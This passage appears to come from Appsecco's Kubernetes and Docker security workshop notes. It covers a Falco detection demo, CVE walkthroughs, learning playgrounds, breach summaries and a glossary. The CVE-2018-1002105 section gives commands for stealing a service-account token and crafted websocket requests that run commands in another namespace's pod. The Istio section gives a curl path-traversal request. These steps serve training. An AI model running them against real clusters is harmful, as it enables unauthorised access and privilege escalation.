kubectl cluster-info dump
- Stack driver logging
Security checks for events using Sysdig Falco (DEMO Only)
In this scenario we will see how we can detect a sensitive file read operation occurring inside a container in a Kubernetes cluster.
We will see how to apply automated defense to automatically stop the attack and apply the fix in near-realtime.
DEMO

source: https://www.youtube.com/watch?v=zd0ksjZI5Vk
DEMO's
CVE-2018-1002105 - Exploiting Kubernetes API Server Vulnerability
Demonstration Video

source: https://www.youtube.com/watch?v=4CTK2aUXTHo
- Check if the vulnerability exists
kubectl version
kubectl get apiservices -o 'jsonpath={range .items[?(@.spec.service.name!="")]}{.metadata.name}{"\n"}{end}'
Scenario
- Create a nginx container in the
defaultnamespace
kubectl run --image=nginx:alpine securenginx
kubectl get pods
- create new
marketingnamespace with restricted access to only that namespacevi marketing-setup.yaml
apiVersion: v1
kind: Namespace
metadata:
name: marketing
---
apiVersion: v1
kind: ServiceAccount
metadata:
name: marketing-user
namespace: marketing
---
kind: Role
apiVersion: rbac.authorization.k8s.io/v1beta1
metadata:
name: marketing-user-full-access
namespace: marketing
rules:
- apiGroups: ["", "extensions", "apps"]
resources: ["*"]
verbs: ["*"]
- apiGroups: ["batch"]
resources:
- jobs
- cronjobs
verbs: ["*"]
---
kind: RoleBinding
apiVersion: rbac.authorization.k8s.io/v1beta1
metadata:
name: marketing-user-view
namespace: marketing
subjects:
- kind: ServiceAccount
name: marketing-user
namespace: marketing
roleRef:
apiGroup: rbac.authorization.k8s.io
kind: Role
name: marketing-user-full-access
- deploy using
kubectl apply -f marketing-setup.yaml
- Let's deploy a pod in
marketing
kubectl run restricted --image=madhuakula/attacker-tools -n marketing
- Assume that attacker has shell access to restricted pod with RBAC enabled to only
marketingnamespace. Get token for the SA
kubectl get secret marketing-user-token-xxxxx -n marketing -o "jsonpath={.data['token']}" | base64 -d
Exploitation
- Get the pods in default namespace
kubectl get pods
ncat -C --ssl 192.168.12.10 6443
GET /api/v1/namespaces/marketing/pods/restricted-xxxxx-xxxx/exec HTTP/1.1
Authorization: Bearer $TOKEN
Host: 192.168.12.10:6443
Connection: upgrade
Upgrade: websocket
GET /exec/default/securenginx-xxxxx-xxxx/securenginx?command=id&input=0&output=1&tty=0 HTTP/1.1
Upgrade: websocket
Connection: Upgrade
Host: 192.168.12.10:6443
Origin: https://192.168.12.10:6443
Sec-WebSocket-Key: $TOKEN
Sec-WebSocket-Version: 13
sec-websocket-protocol: v4.channel.k8s.io
References
CVE-2019-5736 - Escape from Docker and Kubernetes containers to root on host
This scenario demos has been taken from https://github.com/Frichetten/CVE-2019-5736-PoC. Thanks to Nick Frichette
This is a Go implementation of CVE-2019-5736, a container escape for Docker. The exploit works by overwriting and executing the host systems runc binary from within the container.
How does the exploit work?
Example of malicious Docker image
References
- CVE-2019-5736: runc container breakout exploit code
- CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host
- CVE-2019-5736-PoC
CVE-2019-9901 - Istio/Envoy Path traversal
This scenario demos has been taken from https://github.com/eoftedal/writings/blob/master/published/CVE-2019-9901-path-traversal.md. Thanks to Erlend Oftedal
A simple project with a web server and deployed it on Kubernetes. The web application had two endpoints /public/ and /secret/. Added an authorization policy which tried to grant access to anything below /public/:
rules:
- services: ["backend.fishy.svc.cluster.local"]
methods: ["GET"]
paths: ["/public/*"]
Then used standard path traversal from curl:
curl -vvvv --path-as-is "http://backend.fishy.svc.cluster.local:8081/public/../secret/"
And was able to reach /secret/.
Reference
- Security postmortem for CVE-2019-9900, CVE-2019-9901
- Announcing Istio 1.1.2 with Important Security Update
- CVE-2019-9901 - Istio/Envoy Path traversal
- Envoy Proxy high severity vulnerabilities that can lead to exposure of unauthorized services
Fun Learning About Kubernetes
Contained.af
Game for learning about containers, capabilities, and syscalls by @jessfraz
There is a CTF on every VM instance. If you manage to break out of the container, email not.quite@contained.af and you will be rewarded. If you bother this email address with anything that is not the ascii art contents of the flag file you will be ignored.
- Play the game at https://contained.af
Play with Docker
The Play with Docker classroom brings you labs and tutorials that help you get hands-on experience using Docker. In this classroom you will find a mix of labs and tutorials that will help Docker users, including SysAdmins, IT Pros, and Developers. There is a mix of hands-on tutorials right in the browser, instructions on setting up and using Docker in your own environment, and resources about best practices for developing and deploying your own applications.
References
Katacoda Docker Security
Learn Docker Security using Interactive Browser-Based Scenarios. Solve real problems and enhance your skills with browser based hands on labs without any downloads or configuration
References
Play with Kubernetes
Play with Kubernetes is a labs site provided by Docker and created by Tutorius. Play with Kubernetes is a playground which allows users to run K8s clusters in a matter of seconds. It gives the experience of having a free Alpine Linux Virtual Machine in browser. Under the hood Docker-in-Docker (DinD) is used to give the effect of multiple VMs/PCs.
If you want to learn more about Kubernetes, consider the Play with Kubernetes Classroom which provides more directed learning using an integrated Play with Kubernetes commandline.
https://labs.play-with-k8s.com
Kubernetes for Beginners
In this hands-on workshop, you will learn the basic concepts of Kubernetes. You will do that through interacting with Kubernetes through the command line terminals on the right. Ultimately you will deploy the sample application Dockercoins on both worker nodes.
https://training.play-with-kubernetes.com/kubernetes-workshop/
Katacoda
This is a Kubernetes playground. From here you can play with a Kubernetes host and explore it's API.
Playgrounds give you a configured environment to start playing and exploring using an unstructured learning approach
https://www.katacoda.com/courses/kubernetes/playground
Popular Attacks
- Dockerhub 190k accounts
- Cryptojacking using public docker containers
- Dockerhub known vulnerable images
- BSidesSF CTF cluster pwn
- Shopify metadata to cluster pwn
Dockerhub 190k accounts hacked
Docker Hub has been compromised very recently and this attack has put almost 190K users at risk. More details pointing to discussion at Hacker News
Cryptojacking using public docker containers
Kromtech Security Center found 17 malicious docker images stored on Docker Hub for an entire year. Even after several complaints on GitHub and Twitter, research made by sysdig.com and fortinet.com, cybercriminals continued to enlarge their malware armory on Docker Hub. With more than 5 million pulls, the docker123321 registry is considered a springboard for cryptomining containers. Todays growing number of publicly accessible misconfigured orchestration platforms like Kubernetes allows hackers to create a fully automated tool that forces these platforms to mine Monero. By pushing malicious images to a Docker Hub registry and pulling it from the victims system, hackers were able to mine 544.74 Monero, which is equal to $90000.
- Read more about Cryptojacking invades cloud. How modern containerization trend is exploited by attackers
Dockerhub known vulnerable images
Docker containers have recently become a popular approach to provision multiple applications over shared physical hosts in a more lightweight fashion than traditional virtual machines. This popularity has led to the creation of the Docker Hub registry, which distributes a large number of official and community images. In this paper, we study the state of security vulnerabilities in Docker Hub images. We create a scalable Docker image vulnerability analysis (DIVA) framework that automatically discovers, downloads, and analyzes both official and community images on Docker Hub.
Using our framework, we have studied 356,218 images and made the following findings:
- Both official and community images contain more than 180 vulnerabilities on average when considering all versions
- Many images have not been updated for hundreds of days
- Vulnerabilities commonly propagate from parent images to child images
These findings demonstrate a strong need for more automated and systematic methods of applying security updates to Docker images and our current Docker image analysis framework provides a good foundation for such automatic security update.
-
Read more about A Study of Security Vulnerabilities on Docker Hub
BSidesSF CTF cluster pwn
The challenges for the BsidesSF CTF were run in Docker containers on Kubernetes using Google Container Engine. Because of the two infrastructure issues, it was possible to exploit one of the early challenges, steal service account keys, and then use those keys to directly access flags.
Shopify metadata to cluster pwn
The application vulnerability Server-Side Request Forgery (SSRF) in one of the container running in Kubernetes cluster allows attacker to access and gain control over the entire shopify cluster and instances.
- Read more about SSRF to ROOT access in all instances
References
- Docker Security
- Understanding Docker Security and Best Practices
- CIS Benchmarks Docker
- Docker Registry
- Docker Daemon Configuration
- Understanding and Hardening Linux Containers
- Abusing Privileged and Unprivileged Linux Containers
- Security Assurance of Docker Containers
- Play with Docker
- Container Security Notes
- Katacoda
- Linux Container Security
- Docker Cheat Sheet
- Docker content trust
- Clair
- Anchore
- Vuls
- Docker Runtime Privileges and Capabilities
- Privileged Container & Capabilities
- amicontained repository
- Apparmor Security Profiles on Docker
- Seccomp Security Profiles on Docker
- NodeJS Simple RCE
- Docker Labs Capabilities
- Practical SELinux and Containers
- Container Security Notes gist
- Containers and Operating systems morning paper gist
- SSRF Bypasses
- Kubernetes Docs
- Kubernetes Security Info
- Kubernetes Webinar series
- Kubernetes Network Policies
- Helm Tiller Attack
- A tool for exploring each layer in a docker image
- Container Image Linter for Security
Kubernetes Glossary
Annotation
A key-value pair that is used to attach arbitrary non-identifying metadata to objects
Cluster
A set of machines, called nodes, that run containerized applications managed by Kubernetes
Container
A lightweight and portable executable image that contains software and all of its dependencies
Container Environment Variables
Container environment variables are name=value pairs that provide useful information into containers running in a Pod
Controller
A control loop that watches the shared state of the cluster through the apiserver and makes changes attempting to move the current state towards the desired state
CustomResourceDefinition
Custom code that defines a resource to add to your Kubernetes API server without building a complete custom server
DaemonSet
Ensures a copy of a Pod is running across a set of nodes in a cluster
Deployment
An API object that manages a replicated application
Extensions
Extensions are software components that extend and deeply integrate with Kubernetes to support new types of hardware
Image
Stored instance of a container that holds a set of software needed to run an application
Init Container
One or more initialization containers that must run to completion before any app containers run
Job
A finite or batch task that runs to completion
Kubectl
A command line tool for communicating with a Kubernetes API server
Kubelet
An agent that runs on each node in the cluster. It makes sure that containers are running in a pod
Kubernetes API
The application that serves Kubernetes functionality through a RESTful interface and stores the state of the cluster
Label
Tags objects with identifying attributes that are meaningful and relevant to users
Minikube
A tool for running Kubernetes locally
Name
A client-provided string that refers to an object in a resource URL, such as /api/v1/pods/some-name
Namespace
An abstraction used by Kubernetes to support multiple virtual clusters on the same physical cluster
Node
A node is a worker machine in Kubernetes
Pod
The smallest and simplest Kubernetes object. A Pod represents a set of running containers on your cluster
Pod Security Policy
Enables fine-grained authorization of Pod Priority creation and updates
RBAC (Role-Based Access Control)
Manages authorization decisions, allowing admins to dynamically configure access policies through the Kubernetes API
ReplicaSet
ReplicaSet is the next-generation Replication Controller
Resource Quotas
Provides constraints that limit aggregate resource consumption per Namespace
Selector
Allows users to filter a list of resources based on labels
Service
An API object that describes how to access applications, such as a set of Pods , and can describe ports and load-balancers
Service Account
Provides an identity for processes that run in a Pod
StatefulSet
Manages the deployment and scaling of a set of Pods , and provides guarantees about the ordering and uniqueness of these Pods
Taint
A key-value pair and an effect to prevent the scheduling of pods on nodes or node groups
Toleration
A key-value pair and an effect to enable the scheduling of pods on nodes or node groups that have a matching taints
UID
A Kubernetes systems-generated string to uniquely identify objects
Volume
A directory containing data, accessible to the containers in a pod
docker
Docker is a software technology providing operating-system-level virtualization also known as containers
kube-apiserver
Component on the master that exposes the Kubernetes API. It is the front-end for the Kubernetes control plane
kube-controller-manager
Component on the master that runs controllers
kube-proxy
kube-proxy is a network proxy that runs on each node in the cluster
References
About Appsecco

Appsecco is a specialist application security company, founded in 2015, with physical presence in London, Bangalore, Doha and Boston, providing industry leading security advice that is firmly grounded in commercial reality.
Our services cover the entire software development lifecycle from advising on how build and foster a culture of security within development teams and organisations to reviewing and advising on the security of applications and associated infrastructure under development to providing rapid response and advice in the event of a security breach or incident.
As a team, we are highly qualified and have many years of extensive experience working with clients across multiple counties and in a wide range of industries and sectors; from financial services to software development, manufacturing to governmental organisations and consumer brands to ecommerce.
The solutions, advice and insight we deliver to our clients always follows three core principles:
- It must be pragmatic; taking into account the specific commercial, organisational and operational realities of each client individually
- It must genuinely add value; the advice or solutions we provide must addresses the specific problem a client seeks to solve and have actionable insight to enable them to achieve this
- Never be purely automated; whenever we are testing for security our reports and output always have significant, expert, human input to give the greatest possible value for our clients
In addition to their client-facing work our technical team are actively involved in researching and developing new and better ways to stay secure and can regularly be found presenting their findings at industry conferences and events ranging from nullcon in India, DevSecCon in London and Singapore, to DEF CON, the worlds largest security conference held annually in the USA.
Structurally we are a UK Limited company with a wholly owned Indian subsidiary (where the majority of our technical resource is based) and raised seed funding for our continuing growth in the UK in late 2016.